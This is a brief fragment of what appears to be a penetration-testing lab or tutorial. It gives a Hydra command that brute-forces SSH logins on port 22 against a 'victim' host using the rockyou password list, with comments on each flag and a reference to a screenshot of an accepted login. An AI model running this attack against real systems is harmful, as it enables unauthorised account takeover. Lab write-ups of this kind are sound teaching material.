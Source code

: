 We will use the tool **Hydra**

````
hydra -s 22 -v -V -l user -P /usr/share/wordlists/rockyou.txt -t 8 victim's_ip ssh

#-s designates the port to be used
#-v and -V are for maximum verbosity
#-l selects the login name
#-P selects the wordlist
-t selects the number of parallel tasks or connections
````

![](./img/hydra%20accepted.png)